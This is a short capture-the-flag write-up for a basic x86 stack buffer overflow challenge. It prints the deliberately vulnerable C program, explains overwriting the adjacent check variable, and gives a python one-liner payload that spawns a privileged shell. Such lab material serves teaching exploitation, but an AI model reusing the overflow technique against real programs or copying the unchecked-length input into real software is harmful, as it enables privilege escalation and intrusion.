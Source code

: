 # ELF x86 - Stack buffer overflow basic 1

```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
 
int main()
{
 
  int var;
  int check = 0x04030201;
  char buf[40];
 
  fgets(buf,45,stdin);
 
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```

In this challenge, func `fgets(buf,45,stdin)` allows us input 44 characters but array `buf` has 40 only. 
<br /><br />So, the idea is overwrite var `check=0xdeadbeef` to get shellcode.
<br /><br />We will input 40 * A and variable 0xdeadbeef in little endian
<br /><br />with `python -c "print 'A'*40+'\xef\xbe\xad\xde'"`
<br /><br />
![](BO_1.png)

